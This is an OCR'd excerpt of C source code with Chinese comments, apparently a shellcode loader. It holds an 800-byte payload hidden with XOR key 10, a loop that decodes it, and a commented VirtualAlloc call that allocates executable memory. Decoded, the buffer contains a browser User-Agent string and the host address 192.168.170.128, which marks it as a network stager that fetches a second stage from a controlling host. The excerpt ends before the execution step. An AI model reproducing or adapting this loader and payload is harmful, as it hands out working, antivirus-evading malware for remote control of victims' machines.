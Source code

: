         int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
    /* length: 800 bytes */
    
    unsigned char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a\x83\xef\x3b\xd8\x6e\x81\x58\x3a\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xfa\x58\x5d\x81\x58\x1a\x81\x48\x36\x0b\xda\x81\x4a\x72\x8f\xca\x7e\x40\x0b\xda\x5a\x81\x42\x12\x81\x52\x2a\x0b\xd9\xe9\x36\x43\x81\x3e\x81\x0b\xdc\x3b\xf5\x3b\xca\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfe\x09\x77\xf2\x31\x77\x2e\x7f\xe8\x52\x81\x52\x2e\x0b\xd9\x6c\x81\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x52\x55\x50\x81\x18\xe1\x8c\x57\x62\x64\x6f\x7e\x0a\x62\x7d\x63\x64\x63\x5e\x62\x46\x7d\x2c\x0d\xf5\xdf\x3b\xf5\x5d\x5d\x5d\x5d\x5d\x62\x30\x5c\x73\xad\xf5\xdf\xe3\x8e\x0a\x0a\x0a\x51\x3b\xc3\x5b\x5b\x60\x09\x5b\x5b\x62\x9a\x15\x0a\x0a\x59\x5a\x62\x5d\x83\x95\xcc\xf5\xdf\xe1\x7a\x51\x3b\xd8\x58\x62\x0a\x08\x6a\x8e\x58\x58\x58\x59\x58\x5a\x62\xe1\x5f\x24\x31\xf5\xdf\x83\xcc\x89\xc9\x5a\x3b\xf5\x5d\x5d\x60\xf5\x59\x5c\x62\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8e\xc9\x0b\x0a\x0a\x3b\xf5\x8f\xfc\x7e\x0e\x83\xf3\xe1\x03\x62\xa0\xcf\xe8\x57\xf5\xdf\x83\xcb\x62\x4f\x2b\x54\x3b\xf5\xdf\x3b\xf5\x5d\x60\x0d\x5b\x5c\x5a\x62\xbd\x5d\xea\x01\xf5\xdf\xb5\x0a\x25\x0a\x0a\x33\xcd\x7e\xbd\x3b\xf5\xe3\x9b\x0b\x0a\x0a\xe3\xc3\x0b\x0a\x0a\xe2\x81\xf5\xf5\xf5\x25\x39\x7f\x65\x4f\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x44\x46\x44\x46\x23\x07\x00\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x0a\x62\xfa\xbf\xa8\x5c\xf5\xdf\x60\x4a\x62\x0a\x1a\x0a\x0a\x62\x0a\x0a\x4a\x0a\x5d\x62\x52\xae\x59\xef\xf5\xdf\x99\xb3\x0a\x0a\x0a\x0a\x0b\xd3\x5b\x59\x83\xed\x5d\x62\x0a\x2a\x0a\x0a\x59\x5c\x62\x18\x9c\x83\xe8\xf5\xdf\x8f\xca\x7e\xcc\x81\x0d\x0b\xc9\x8f\xca\x7f\xef\x52\xc9\xe2\xa3\xf7\xf5\xf5\x3b\x33\x38\x24\x3b\x3c\x32\x24\x3b\x3d\x3a\x24\x3b\x38\x32\x0a\x0a\x0a\x0a\x0a";
    
    
    // 获取shellcode大小
    shellcode_size = sizeof(buf);
    
    /* 增加异或代码 */
    for(int i = 0;i<shellcode_size; i++){
        buf[i] ^= 10;
    }
    /*
    VirtualAlloc(
        NULL, // 基址
        800,  // 大小
        MEM_COMMIT, // 内存页状态
        PAGE_EXECUTE_READWRITE // 可读可写可执行
        );
    */
    